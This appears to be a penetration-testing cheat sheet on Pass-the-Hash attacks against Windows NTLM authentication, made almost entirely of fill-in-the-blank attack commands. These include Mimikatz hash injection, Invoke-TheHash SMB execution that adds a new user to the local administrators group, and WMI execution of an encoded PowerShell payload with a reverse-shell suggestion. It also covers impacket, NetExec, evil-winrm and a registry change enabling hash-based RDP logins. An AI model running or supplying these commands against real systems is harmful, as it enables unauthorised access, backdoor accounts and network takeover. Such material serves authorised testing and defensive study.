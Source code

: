 A [Pass the Hash (PtH)](https://attack.mitre.org/techniques/T1550/002/) attack is a technique where an attacker uses a password hash instead of the plain text password for authentication. This process abuses the NTLM set of security protocols used as a SSO solution within windows.
## Usage

Windows
```PowerShell
# Mimikatz
mimikatz.exe privilege::debug "sekurlsa::pth /user:<user> /rc4:<NTLM_hash> /domain:<domain> /run:cmd.exe" exit

# https://github.com/Kevin-Robertson/Invoke-TheHash
# PowerShell Invoke-TheHash SMB
Import-Module .\Invoke-TheHash.psd1
Invoke-SMBExec -Target <IP_or_hostname> -Domain <domain> -Username <user> -Hash <NTLM_hash> -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose    # After this, authenticate as user
# ALTERNATIVE -- rev shell as command

# PowerShell Invoke-TheHash WMI
Import-Module .\Invoke-TheHash.psd1
Invoke-WMIExec -Target DC01 -Domain <domain> -Username <user> -Hash <NTLM_hash> -Command "powershell -e <base64_string>"
```

Linux
```bash
# impacket
impacket-psexec <user>@<ip> -hashes :<NTLM_hash>
impacket-wmiexec    # these can all use PtH
impacket-atexec
impacket-smbexec

# NetExec
netexec smb <ip> -u <user> -d <domain> -H <NTLM_hash>
-x <command>  # command execution

# evil-winrm
evil-winrm -i <ip> -u <user> -H <NTLM_hash>

# RDP
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
xfreerdp  /v:<ip> /u:<user> /pth:<NTLM_hash>
```

#### UAC Limits PtH
`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` 
	if this key is set to 0, only local admin Administrator can perform remote admin tasks


